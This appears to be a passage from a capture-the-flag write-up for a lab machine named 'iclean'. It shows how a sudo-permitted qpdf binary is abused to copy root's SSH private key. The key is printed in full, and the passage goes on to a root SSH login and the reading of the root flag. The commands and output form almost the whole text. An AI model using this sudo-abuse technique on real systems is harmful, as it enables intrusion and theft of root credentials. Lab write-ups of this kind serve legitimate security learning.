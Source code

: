 ```bash
User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
```
Because there is `ssh`port open let's copy `id_rsa`of `ssh` with `qpdf`:
```bash
$ sudo /usr/bin/qpdf --empty /tmp/rsa.txt --qdf -add-attachment /root/.ssh/id_rsa --
sudo /usr/bin/qpdf --empty /tmp/rsa.txt --qdf -add-attachment /root/.ssh/id_rsa --
$ cat /tmp/rsa.txt
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS
1zaGEyLW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQQMb6Wn/o1SBLJUpiVfUaxWHAE64hBN
vX1ZjgJ9wc9nfjEqFS+jAtTyEljTqB+DjJLtRfP4N40SdoZ9yvekRQDRAAAAqGOKt0ljir
dJAAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAxvpaf+jVIEslSm
JV9RrFYcATriEE29fVmOAn3Bz2d+MSoVL6MC1PISWNOoH4OMku1F8/g3jRJ2hn3K96RFAN
EAAAAgK2QvEb+leR18iSesuyvCZCW1mI+YDL7sqwb+XMiIE/4AAAALcm9vdEBpY2xlYW4B
AgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```
[qpdf](https://en.wikipedia.org/wiki/QPDF)
Copy this `OPENSSH`private key to some file that you will be needing to use while connecting to `ssh`as a root.
```bash
$ cat rsa < -----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS
1zaGEyLW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQQMb6Wn/o1SBLJUpiVfUaxWHAE64hBN
vX1ZjgJ9wc9nfjEqFS+jAtTyEljTqB+DjJLtRfP4N40SdoZ9yvekRQDRAAAAqGOKt0ljir
dJAAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAxvpaf+jVIEslSm
JV9RrFYcATriEE29fVmOAn3Bz2d+MSoVL6MC1PISWNOoH4OMku1F8/g3jRJ2hn3K96RFAN
EAAAAgK2QvEb+leR18iSesuyvCZCW1mI+YDL7sqwb+XMiIE/4AAAALcm9vdEBpY2xlYW4B
AgMEBQ==
-----END OPENSSH PRIVATE KEY-----
$ chmod 600 rsa
$ ssh -i rsa root@10.10.11.12
The authenticity of host '10.10.11.12 (10.10.11.12)' can't be established.
ED25519 key fingerprint is SHA256:3nZua2j9n72tMAHW1xkEyDq3bjYNNSBIszK1nbQMZfs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.12' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Sat Aug  3 12:44:17 PM UTC 2024




Expanded Security Maintenance for Applications is not enabled.

3 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

root@iclean:~# cat root.txt
09bab030cd79f2a2553346f92ddf4c49
```